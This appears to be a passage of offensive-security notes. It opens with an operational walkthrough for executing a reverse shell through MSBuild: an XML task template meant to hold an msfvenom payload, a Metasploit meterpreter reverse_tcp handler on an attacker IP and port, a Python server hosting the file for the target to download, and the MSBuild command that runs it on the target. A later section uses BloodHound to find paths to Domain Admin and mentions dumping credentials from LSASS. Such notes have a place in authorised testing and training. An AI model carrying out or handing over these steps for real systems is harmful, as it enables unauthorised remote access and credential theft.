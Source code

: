 Add the payload to a MSBuild XML file (see below). Then, get the XML file onto the target. 
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Demo">
   <MSBuildShell/>
  </Target>
   <UsingTask
    TaskName="Demo"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll">
    <!-- Double-check the path above this line! -->
    <Task>	
      <Code Type="Class" Language="cs">
      <!-- Payload generated by MSFVenom -->
      </Code>
    </Task>
  </UsingTask>
</Project>
```

Start a handler. 
```bash
# attacker: terminal 1
sudo msfconsole 
use exploit/multi/handler
set LHOST 192.168.1.23
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
options # check your exploit settings
run
```

Host the exploit so the target can download it. 
```bash
# attacker Terminal 2:
sudo python3 -m http.server 8000
```

Get the target to execute the exploit. 
```bash
# target Terminal 1:
C:\Windows\Microsoft.NET\path\to\MSBuild.exe C:\rshell.xml
```



# Privilege Escalation

### Bloodhound
BloodHound is a tool for reviewing privilege escalation paths within Active Directory and Entra ID environments. The graphs shown are generated using data collected by SharpHound and AzureHound. 
```bash
cd Bloodhound-win32-x64/
BloodHound.exe
# login (neo4j:BloodHound) 
# use one of the options below to discover a path to privesc
```
Option 1: use a pre-built query. 
```bash
# enter the name of an entity in the search bar (top-left) 
# right-click entity and select "Mark User as Owned"
# click "Queries" > "Shortest Paths to Domain Admins from Owned Principals"
# pick a Domain Admins group
# review path to privesc
# privesc will require connecting to machines and dumping creds from LSASS
```
Option 2: specify a target node. 